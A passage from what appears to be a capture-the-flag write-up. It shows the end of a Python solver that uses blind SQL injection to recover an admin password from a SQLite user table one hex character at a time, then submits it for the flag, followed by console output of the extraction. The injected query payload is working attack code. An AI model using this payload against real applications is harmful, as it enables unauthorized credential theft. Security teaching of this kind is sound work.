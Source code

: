 ```python
        """
        IIF(UNICODE('<c>') >= 97, 97-10, 48):
        0: 0  (=48-48)
        1: 1  (=49-48)
        ...
        9: 9  (=57-48)
        a: 10 (=97-87)
        b: 11 (=98-87)
        ...
        f: 15 (=102-87)
        """
        ret = binary_search_leftmost(
            0,
            15,
            f"admin' AND UNICODE(SUBSTR((SELECT password FROM user WHERE username='admin'), {i}, 1)) - CASE WHEN UNICODE(SUBSTR((SELECT password FROM user WHERE username='admin'), {i}, 1)) >= 97 THEN 87 ELSE 48 END > {{m}}--",
            token,
        )

        password += f"{ret:x}"
        print(f"{password}    ")

    print(password)

    res = s.post(f"{BASE_URL}/api/get_flag", data={"password": password})
    print(res.text)


if __name__ == "__main__":
    main()
```

Result:

```console
$ python3 solver.py
sqlite_version_length=6
sqlite_version='3.25.3'
sql_length=68
sql='CREATE TABLE user (id int primary key, username text, password text)'
record_length=1
5
57
57c
57c6
57c6b
57c6be
57c6bed
57c6bed8
57c6bed8d
57c6bed8de
57c6bed8def
57c6bed8def0
57c6bed8def04
57c6bed8def042
57c6bed8def0422
57c6bed8def04222
57c6bed8def04222b
57c6bed8def04222b1
57c6bed8def04222b14
57c6bed8def04222b14b
57c6bed8def04222b14b3
57c6bed8def04222b14b3b
```